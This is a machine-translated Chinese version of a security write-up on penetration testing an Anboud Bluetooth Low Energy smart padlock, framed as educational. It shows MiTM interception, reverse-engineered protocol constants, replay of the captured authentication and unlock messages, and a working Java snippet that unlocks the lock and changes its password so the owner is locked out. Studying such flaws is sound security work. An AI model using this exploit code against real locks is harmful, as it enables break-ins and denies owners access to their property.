# 黑掉蓝牙智能锁

> 原文：<https://infosecwriteups.com/hacking-a-bluetooth-smart-lock-a710e056e6cf?source=collection_archive---------4----------------------->

本文是教育人们如何在物联网设备上正确进行渗透测试的系列文章的一部分。物联网 Pentest 系列将以蓝牙低能耗协议开启黑客之旅。

本文分析了一个商业挂锁，并讨论了渗透测试仪在笔测试支持 BLE(蓝牙低能耗)的设备时应遵循的不同阶段。

在这个系列中，将使用 [BLE:钻头](https://shellwanted.com/index.php/2021/01/08/introducing-blebit/)，这使得事情变得更容易，尤其是对于这个领域的新手来说。 [BLE:Bit](https://shellwanted.com/index.php/2021/01/08/introducing-blebit/) 是一款蓝牙低能耗安全评估工具，专为安全评估而设计。它配备了 BLE:位 SDK，一个 Java 软件开发工具包，有助于控制设备。此外，用户可以使用现有的 CLI 工具或 BLE:位控制器(android)来控制设备。为了让我们的生活更轻松，我们将使用名为 BLE 的 android 应用程序:位控制器。

**BLE:位控制器如何工作:**



BLE:比特中心和外围

BLE:位控制器是一个 android 应用程序，它与附带的 java 服务器(运行在计算机上，即。raspberry pi)是基于 BLE:Bit SDK 的。当应用程序启动时，我们必须配置代理配置。然后，当控制器连接到 java 服务器时，BLE:比特中央和 BLE:比特外围设备(它们连接到树莓派)通过 java 服务器在 android 控制器的控制下。通过使用控制器 1.0 版，我们可以查看和重放(或通过数据修改重放)数据到对等设备。

# 攻击场景


安邦智能锁

攻击场景如下:

我们有一个智能锁，当点击它时，它就会被激活并等待客户端连接。智能锁配有 android 和 iOS 应用程序。当 android 应用程序发现该设备时，它会连接到智能锁，并通过单击供应商 android 应用程序上的解锁按钮来解锁该锁。首先，我希望完成一次 MiTM 攻击，以便更好地理解 android 应用程序和支持 BLE 的设备之间的应用层协议。为了实现这一点，我们将同时使用 BLE:位中央处理器和 BLE:位外围处理器。

我们将在 raspberry pi 转移 BLE:Bit 的服务器(两个 BLE:Bit 设备——中央和外围——连接到 raspberry pi，如下所示)。



BLE:比特 1.0 版

让我们启动服务器:

java -jar BLEBit-server.jar

默认情况下，服务器监听 TCP 端口 9090。这些信息对于 BLE:位控制器 android 应用程序的配置是必要的。

我们通过使用第一个 BLE:Bit android 应用程序/ SDK 来开始这个系列文章。

下图显示了“BLE:位配置”页面。在配置过程中，我们可以选择几个选项(即包括扫描数据)。这很重要，因为扫描数据通常包含与广告数据不同的数据。这是重要的，因为流氓外设 BLE:位设备需要知道什么数据应该广告。如果我们忽略任何广告数据，供应商的 android 应用程序可能无法连接到我们的流氓站，甚至可能根本无法连接。



BLE:位控制器-配置页面

当我们点击 connect 时，BLE:Bit 控制器启动一个到 BLE:Bit 服务器的连接，这个服务器是我们之前在 Raspberry Pi 上启动的。

然后，我们打开供应商的 android 应用程序，以便与我们的流氓站通信并拦截任何 BLE 流量。



Anboud 安卓应用

当 android 应用程序打开时，它会通过搜索蓝牙设备地址来扫描附近的已知设备(之前已与它们配对)。如果任何已知设备在范围内，应用程序会启动与它们的连接。在这种情况下，另一端将是我们的流氓 BLE:位外设。

拦截流量与 BLE:位控制器应用程序:



BLE:位控制器:流量拦截— MiTM

屏幕显示不同的特性以及正在使用的数值。W 代表写，N 代表通知。写意味着，供应商的 android 应用程序想要向另一个对等设备(锁)发送消息，而通知意味着锁希望向另一个对等设备(供应商的 android 应用程序)发回消息。

# 理解协议

为了理解协议，需要对协议(如果可能的话)或应用程序的 android 进行逆向工程。理想情况是对两者进行逆向工程。

逆向工程的应用是微不足道的，因为没有剥离已执行 APK。下面我们可以看到该类(com . CHL tec . base _ ble lock . module . protocol . blelockprotocol)的一部分，它包含自定义 BLE 协议的一些字段:

```
public static final byte BLELOCK_STATE_CLOSE = (byte) 0;    // 0
    public static final byte BLELOCK_STATE_OPEN = (byte) 1;     // 1
    public static final byte CLOSE_BLELOCK = (byte) 2;          // 2
    public static final byte COMMAND_AUTH_PWD = (byte) 65;      // 41
    public static final byte COMMAND_ENERGY = (byte) 32;        // 20
    public static final byte COMMAND_KEY_OPERATE_PWD = (byte) 80; // 50
    public static final byte COMMAND_OPERATE_LOCK = (byte) 16;  // 10
    public static final byte COMMAND_SETTING_PWD_MODE = (byte) 96; // 60
    public static final byte COMMAND_SET_PASSWORD = (byte) 64;  // 40
    public static final byte COMMAND_STATUS = (byte) 48;        // 30
    public static final byte OPEN_BLELOCK = (byte) 1;           // 1
    public static final byte REQUEST_ID = (byte) 85;            // 55
    public static final byte RESPOND_ID = (byte) -86;           // aa
```

用于为密码认证消息设置消息的方法:

```
public static byte[] buildSetAuthPassword(int password) {
        ByteBuffer byteBuffer = ByteBuffer.allocate(6);
        byteBuffer.put(REQUEST_ID);
        byteBuffer.put(COMMAND_SET_PASSWORD);
        byteBuffer.put(ByteUtil.hexStringToByteArray(String.format("%06x", new Object[]{Integer.valueOf(password)})));
        byteBuffer.put(checkSum(byteBuffer.array()));
        Log.d(AppConstants.DEBUG_TAG, new String(Hex.encodeHex(byteBuffer.array())));
        return byteBuffer.array();
    }
```

我们可以从第一条消息开始逐个解码协议消息。它从主设备发送到从设备，在这种情况下，从设备是智能锁的 android 应用程序。

**报文 1:** 0x01，0x00。

android 应用程序需要启用通知，以便能够从从属设备接收任何值更新。

**消息二:**

该消息被分解如下所示:



**消息三:**

该消息被分解如下所示:



**消息 4:**



**消息 5:**



这个场景的最终目标是，作为攻击者，能够在没有真正所有者帮助的情况下打开锁。

通过点击 BLE 智能锁的解锁按钮，我们可以看到信息并解码如下:



解锁智能锁时拦截数据包

**消息 6:**



现在很清楚，打开锁只需要 4 个字节。

# 渗透测试

## BLE 加密和认证:严重程度

android 应用程序没有应用 BLE 协议支持的任何加密方法，也没有应用应用层加密。

## 认证:通过

我们已经观察到，应用了认证方法。但这还不够，因为任何扮演 MTIM 的人都可能截获密码信息并解锁，这就相当于游戏结束了。因此，智能锁容易受到 MiTM 和嗅探攻击。不过，我们还没有绕过认证。

## 重放攻击:严重程度

**设备未授权解锁**

因为我们知道哪个消息执行每个动作，所以我们现在将通过重放一些消息(和/或改变它们)来检查对等设备何时接受重放的数据。这将针对 android 应用程序和智能锁来执行。同样，我们可以通过 BLE:位控制器，向左/向右滑动任何信息来实现。然后，会出现一个消息框，询问我们是否要修改数据。在这个阶段，我们不希望改变任何数据。

为了使场景更加有趣、真实和有趣，我们将在没有供应商的 android 应用程序的情况下连接到智能锁。为此，我们需要将数据存储在数据库中。这由 BLE:位控制器应用程序通过代理配置页面来处理。



在仅连接智能锁的情况下执行重放攻击

正如我们所看到的，我们已经通过使用之前接收的完全相同的认证消息进行了认证，并且通过使用相同的“打开锁”消息解锁了不安全的智能设备。锁已被成功打开。android 应用程序无法与目标设备建立安全通信，因此信息的保密性受到影响。

# 自动解锁

锁定实现无法建立安全通信，因此可能会出现数据包重放的情况。那么，在用户无法重置密码的情况下，我们如何更改密码以拒绝实际用户的访问呢？

默认情况下，智能锁不支持密码重置。这意味着，如果未经授权的用户更改了密码，实际用户将被永远锁定。

我们遵循了前面重放攻击中描述的相同步骤。首先，我们可以通过 android 应用程序完成操作(更改密码)，然后我们重放数据，以确认密码可以被未经授权的参与者更改。由于缺少加密算法，任何持有密码的人都可以更改密码，这是有道理的。这不是一个安全问题，但是为了完成测试，这里显示了解决方案。

我们利用 BLE:Bit SDK 1.7 版开发了一个小代码片段，它可以自动找到锁，并在找到锁后立即解锁。

这并不难做到，因为使用 BLE:位 SDK 是直截了当的。

首先，我们创建一个中央回调对象。

```
CEBLEDeviceCallbackHandler devCallback = new CEBLEDeviceCallbackHandler();
```

然后，创建并配置中心:

```
ce = new CEController(startComm(prolific_ftdi), devCallback);
			ce.sendConnectionParameters(9, 13, 0, 1000,  /*Scan*/ 500/*Interval*/, 400/*Window*/, 0/*Timeout*/, /*Connection*/  50, 40, 0xffff, false);
			ce.sendBluetoothDeviceAddress("ff:55:ee:fe:4a:af", ConnectionTypesCommon.BITAddressType.STATIC_PRIVATE);
			ce.configurePairing(ConnectionTypesCommon.PairingMethods.NO_IO, null);
			ce.eraseBonds();
			ce.finishSetup();
```

以下代码行将启动 CE 并开始监听(任何)目标:

```
ce.connectNow(target, AddressType.PUBLIC_ADDR);
```

最后，下面的代码可用于使用自定义协议进行通信、身份验证、解锁，然后更改现有密码:

```
byte [] auth = new byte[] {0x55, 0x41, 0x01, 0x02, (byte)0x03, 0x00};
			checksum(auth);
			byte [] open = new byte[] {0x55, 0x10, 0x01, 0x00};
			checksum(open);
			byte [] passmode = new byte[] {0x55, 0x60, 0x00}; 
			checksum(passmode);
			byte [] setpassword = new byte[] {0x55, 0x40, 0x02, 0x61, (byte)0xfc, 0}; 
			checksum(setpassword);
			// Authenticate and open lock
			ce.writeData(auth, 0, auth.length, (short)41);
			ce.writeData(open, 0, open.length, (short)41);
			// Enter Password-change mode and alter password
			ce.writeData(passmode, 0, passmode.length, (short)41);
			ce.writeData(setpassword, 0, setpassword.length, (short)41);

			ce.disconnect(19);
			ce.terminate();
```

通过编译和运行上述 java 代码，智能锁在启用时，在不到几毫秒的时间内就被解锁，密码被更改。

请记住，还可以做得更多。例如，我们可以改变 android 应用程序中显示的电池电量。消息通过我们的 BLE 传输:位控制器和改变供应商的应用程序的电池电量指示器是小菜一碟。可以应用与已经解释的技术没有区别的相同技术。

请继续关注更多有趣的文章！

**仅供参考:你可能会在 shellwanted.com**[找到 BLE:比特](https://bit.ly/3t6NoKb)